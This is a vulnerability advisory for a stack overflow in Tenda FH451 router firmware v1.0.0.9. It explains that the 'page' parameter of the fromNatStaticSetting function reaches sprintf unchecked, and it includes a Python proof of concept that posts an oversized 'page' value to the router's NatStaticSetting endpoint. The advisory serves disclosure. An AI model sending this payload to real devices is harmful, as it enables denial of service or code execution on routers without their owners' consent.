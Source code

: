 # Tenda FH451 fromNatStaticSetting
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromNatStaticSetting function.

### Vulnerability details
In function fromNatStaticSetting line 13, it reads in a user-provided parameter `page`. The variable `v6` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/9.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/NatStaticSetting"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```